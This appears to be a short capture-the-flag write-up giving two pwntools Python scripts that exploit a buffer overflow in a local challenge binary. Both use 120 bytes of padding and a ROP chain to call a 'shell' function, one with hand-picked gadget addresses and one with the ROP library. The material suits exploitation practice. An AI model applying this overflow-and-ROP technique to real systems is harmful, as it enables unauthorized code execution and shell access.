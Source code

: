 ## Payload

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
rop = p64(0x000000000040126b)
rop2 = p64(0x0000000000401016)
p.sendline(b"a"*120+rop+p64(123456)+rop2+p64(e.symbols["shell"]))
p.interactive()
```

## Alternative using pwntools ROP library

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
context.binary = e
rop = ROP(e)
rop.call(rop.ret)
rop.call(e.symbols["shell"],(123456,))

p.sendline(b"a"*120+rop.chain())

p.interactive()
```

The ROP library automatically finds and sticks together gadgets to create an equivalent payload.